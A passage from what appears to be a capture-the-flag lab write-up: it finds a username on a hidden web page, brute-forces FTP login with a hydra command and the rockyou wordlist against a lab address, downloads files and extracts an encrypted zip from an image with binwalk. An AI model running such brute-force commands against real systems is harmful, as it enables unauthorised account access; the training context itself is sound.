 Thus, by accessing the path ```agent_C_attention.php```, we are met by the following web page:
```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R 
```

And this is how we've obtained a potential username.

## Hash cracking and brute-force ##
### FTP Bruteforcing ###
We will use ```hydra``` to bruteforce ```FTP``` credentials:
```
hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.253.16 -t 16 ftp -V 
```
Making our way through the FTP server with the newly found credentials we find we can download some files:
```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> get To_agentJ.txt
ftp> get cute-alien.jpg
ftp> get cutie.png
```
The text file suggests us we are dealing with a steganography challenge:
```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

### Zip Bruteforcing ###
Extracting the fake image indicated in the previous note we get multiple files:
```
$ binwalk cutie.png -e

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
$ cd _cutie.png.extracted
$ ls
365  365.zlib  8702.zip  To_agentR.txt
```

